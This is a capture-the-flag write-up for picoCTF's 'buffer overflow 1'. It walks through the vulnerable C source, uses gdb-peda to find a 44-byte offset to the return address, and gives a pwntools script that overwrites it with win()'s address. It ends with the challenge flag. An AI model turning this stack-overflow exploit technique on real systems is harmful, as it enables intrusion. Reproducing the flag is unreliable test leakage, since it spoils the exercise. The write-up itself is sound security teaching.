 # Example 1
### buffer overflow 1 (pico ctf)
![image](https://github.com/fahimalshihab/CTF/assets/97816146/1a5ed475-3848-4133-98de-791d2eb79e88)

files : [vuln](https://github.com/fahimalshihab/CTF/blob/df85a1701f5ad1227ce7449c24c71f814a4257c6/Binary%20Exploitation/Buffer%20Overflow/vuln)
& [vuln.c](https://github.com/fahimalshihab/CTF/blob/9e92d32e07e52470452dae9bd0ca4cde18c8f62a/Binary%20Exploitation/Buffer%20Overflow/vuln.c)

 <h3>From code we can see there is a win function .if we can overflow the stack and can give the address of win function . we will get our flag.</h3>

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

#### SOL 1

Here first we have to find the offset so 
```gdb-peda$ pattern create 100```
>> 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'

after input this value we will get this
<pre>[----------------------------------registers-----------------------------------]
EAX: 0x41 ('A')
EBX: 0x61414145 ('EAAa')
ECX: 0x41 ('A')
EDX: 0x0 
ESI: 0xffffd034 --> 0xffffd22e ("/home/iftx/Downloads/pico/vuln")
EDI: 0xf7ffcb80 --> 0x0 
EBP: 0x41304141 ('AA0A')
ESP: 0xffffcf50 ("bAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
EIP: 0x41414641 ('AFAA')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414641
[------------------------------------stack-------------------------------------]
0000| 0xffffcf50 ("bAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0004| 0xffffcf54 ("AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0008| 0xffffcf58 ("AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0012| 0xffffcf5c ("2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0016| 0xffffcf60 ("AAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0020| 0xffffcf64 ("A3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0024| 0xffffcf68 ("IAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0028| 0xffffcf6c ("AA4AAJAAfAA5AAKAAgAA6AAL")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414641 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]────────────────────────────
*EAX  0x41
*EBX  0x61414145 ('EAAa')
*ECX  0x41
 EDX  0
*EDI  0xf7ffcb80 (_rtld_global_ro) ◂— 0
*ESI  0xffffd034 —▸ 0xffffd22e ◂— '/home/iftx/Downloads/pico/vuln'
*EBP  0x41304141 ('AA0A')
*ESP  0xffffcf50 ◂— 'bAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
*EIP  0x41414641 ('AFAA')
──────────────────────────────────────[ DISASM / i386 / set emulate on ]──────────────────────────────────────
Invalid address 0x41414641

</pre>


Here ```*EIP  0x41414641 ('AFAA')```


Now we gonna find the offset of "AFAA"
```
gdb-peda$ pattern offset AFAA
AFAA found at offset: 44
```
now we know the offset which is 44 , so all we have to do is .Input : 44 + win,s address
so
```
gdb-peda$ disass win
Dump of assembler code for function win:
   0x080491f6 <+0>:	endbr32 
   0x080491fa <+4>:	push   ebp
   0x080491fb <+5>:	mov    ebp,esp
   0x080491fd <+7>:	push   ebx
   0x080491fe <+8>:	sub    esp,0x54
   0x08049201 <+11>:	call   0x8049130 <__x86.get_pc_thunk.bx>
   0x08049206 <+16>:	add    ebx,0x2dfa
   0x0804920c <+22>:	sub    esp,0x8
   0x0804920f <+25>:	............................................so on
```
so now the input is

```gdb-peda$ run < <(echo -ne "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08")```

we will found the flag. now time for remote server .

tips :
```
>>> 'A'*44
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
>>> p32(0x080491f6)
b'\xf6\x91\x04\x08'
```

script :

```
from pwn import *

# Set up the remote connection
host = "saturn.picoctf.net"
port = 57696
conn = remote(host, port)

# Craft the payload
padding = b"A" * (32+12)  # Fill the buffer
win_address = p32(0x080491f6)  # Address of the win() function
payload = padding + win_address

# Send the payload
conn.sendline(payload)

# Print the received flag
print(conn.recvall().decode())

# Close the connection
conn.close()
```
flag : picoCTF{addr3ss3s_ar3_3asy_5c6baa9e}



